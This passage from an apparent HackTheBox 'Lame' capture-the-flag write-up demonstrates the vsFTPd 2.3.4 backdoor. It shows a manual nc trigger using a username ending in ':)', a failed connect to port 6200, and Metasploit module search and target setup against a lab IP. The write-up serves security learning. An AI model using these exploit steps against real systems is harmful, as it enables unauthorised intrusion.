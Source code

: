 ### Without Metasploit

I wrote about this exploit in my [LaCasaDePapel writeup](https://0xdf.gitlab.io/2019/07/27/htb-lacasadepapel.html). It can be triggered by connecting to FTP and logging in with a username ending in . I’ll try it with :`:)``nc`


```
    root@kali# nc 10.10.10.3 21
    220 (vsFTPd 2.3.4)
    USER 0xdf:)
    331 Please specify the password.
    PASS 0xdf-not-a-password 
```

    

If it worked, I should be able to connect to a listener on Lame port 6200. But it doesn’t work.

  
```
  root@kali# nc 10.10.10.3 6200
    Ncat: TIMEOUT.
    

```

### With Metasploit

I understand this exploit enough to know that it will be no different in Metasploit, but I can demonstrate here. I’ll fire up , and search for it:`msfconsole`

  
```
  msf5 > search vsftpd
    
    Matching Modules
    ================
    
       Name                                  Disclosure Date  Rank       Check  Description
       ----                                  ---------------  ----       -----  -----------
       exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
    
```


I’ll use it, and set the target:

   
```
 msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options
    
    Module options (exploit/unix/ftp/vsftpd_234_backdoor):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS                   yes       The target address range or CIDR identifier
       RPORT   21               yes       The target port (TCP)
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.3
    rhosts => 10.10.10.3
```